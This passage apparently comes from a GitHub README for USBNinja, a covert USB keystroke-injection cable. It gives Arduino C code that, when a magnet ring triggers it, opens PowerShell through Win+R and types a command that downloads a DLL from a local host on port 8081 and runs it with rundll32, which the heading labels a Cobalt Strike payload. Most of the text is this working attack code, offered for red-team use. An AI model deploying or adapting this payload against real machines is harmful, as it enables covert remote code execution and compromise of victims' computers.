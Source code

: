 
### Cobalt Strike payload (ring activation)

USBNinja can also be activated using magnetic ring. To do this we will check the pin state in `loop()` function. First we need to configure the pin mode in `setup()` function:

```c
void setup() {
    pinMode(USBDIRECTPIN, INPUT);
}
```

Now we need to check for the pin state in `loop()` function:

```c
void loop() {
    //If a magnet is near, Pin 0 will turn to low
    if (digitalRead(USBDIRECTPIN) == LOW) {
        pinMode(USBDIRECTPIN, OUTPUT);

        // Initiate keyboard
        USBninjaOnline();
        NinjaKeyboard.begin();
        NinjaKeyboard.delay(1000);
        // Send HID '0' to compatibility Win7
        NinjaKeyboard.sendKeyStroke(0);
        NinjaKeyboard.delay(1000);
        // WIN + R
        NinjaKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
        NinjaKeyboard.delay(100);
        // Start PowerShell
        NinjaKeyboard.print(F("powershell.exe"));
        NinjaKeyboard.delay(100);
        // ENTER
        NinjaKeyboard.sendKeyStroke(KEY_ENTER);
        NinjaKeyboard.delay(500);
        // Download, execute payload and exit powershell
        NinjaKeyboard.println(F("(New-Object System.Net.WebClient).DownloadFile(\"http://192.168.1.100:8081/https.dll\", \"C:\\Users\\Public\\Documents\\https.dll\"); rundll32 C:\\Users\\Public\\Documents\\https.dll,Start; exit"));
        NinjaKeyboard.delay(100);
        // Stop and remove keyboard
        NinjaKeyboard.end();
        USBninjaOffline();

        pinMode(USBDIRECTPIN,INPUT);
    }
}
```

Don't forget to remove the ring after two seconds when uploading code or it can trigger payload on your machine.

Full code file can be found [here](https://github.com/4d4c/USBNinjasrc/branch/master/payload_examples/ring_powershell_command/ring_powershell_command.ino).
